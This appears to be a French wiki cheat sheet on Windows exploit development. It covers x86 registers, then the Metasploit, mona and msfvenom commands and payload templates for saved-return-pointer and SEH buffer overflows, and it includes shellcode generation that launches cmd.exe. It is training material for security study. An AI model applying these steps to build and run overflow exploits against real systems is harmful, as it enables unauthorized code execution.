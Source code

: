 ```yaml
---
title: Ecriture d'exploit
permalink: /Ecriture_d'exploit/
---
```


# Ecrite d'exploit

T0D0
----

-   Identification automatisée des bad chars
-   Fuzzing

Registres
---------

Les différents registres présents sont:

``` text
EAX - Main register used in arithmetic calculations. Also known as accumulator, as it holds results
      of arithmetic operations and function return values.
EBX - The Base Register. Pointer to data in the DS segment.  Used to store the base address of the
      program.
ECX - The Counter register is often used to hold a value representing the number of times a process
      is to be repeated. Used for loop and string operations.
EDX - A general purpose registers. Also used for I/O operations. Helps extend EAX to 64-bits.
ESI - Source Index register. Pointer to data in the segment pointed to by the DS register.  Used as
      an offset address in string and array operations. It holds the address from where to read data.
EDI - Destination Index register. Pointer to data (or destination) in the segment pointed to by the
      ES register.  Used as an offset address in string and array operations. It holds the implied
      write address of all string operations.
EBP - Base Pointer. Pointer to data on the stack (in the SS segment).  It points to the bottom of the
      current stack frame. It is used to reference local variables.
ESP - Stack Pointer (in the SS segment). It points to the top of the current stack frame. It is used
      to reference local variables.
EIP - Instruction Pointer (holds the address of the next instruction to be executed)
```

Saved Return Pointer Overflows
------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona)

``` text
!mona findmsp
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec metasploit:

``` bash
pattern_offset.rb 76483676
[*] Exact match at offset 6109
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec mona:

``` text
!mona pattern_offset 43386F43
!mona po 43386F43
```

Identification d'un 'jmp' vers le registre visé:

``` text
!mona jmp -r esp #jmp vers esp
```

Génération d'un shellcode faisant apparaîte cmd.exe:

``` bash
msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"
```

Le payload final aura la forme suivante:

``` python
# [JUNK][EIP][NOP_SLED][SHELLCODE]
payload = 'A' * offset + ret_addr + '\x90' * 100 + buf
```

Structured Exception Handler (SEH)
----------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona):

``` text
!mona findmsp
```

Afficher le contenu des enregistrements SEH:

``` text
!mona exchain
```

Trouver des instructions 'pop pop ret':

``` text
!mona seh
```

Saut de 6 bytes (saute deux NOP et l'adresse du pop pop ret):

``` text
\xEB\x06\x90\x90
```

Le payload final aura la forme suivante:

``` python
# [JUNK][nSEH][SEH][NOP_SLED][SHELLCODE]
payload = 'A' * offset + jmp_esp + ret_addr + '\x90' * 100 + buf
```

Références
----------

-   [Fuzzy Security - Exploit Development](https://www.fuzzysecurity.com/tutorials/expDev/1.html)
-   [Awesome Windows Exploitation](https://github.com/enddo/awesome-windows-exploitation)


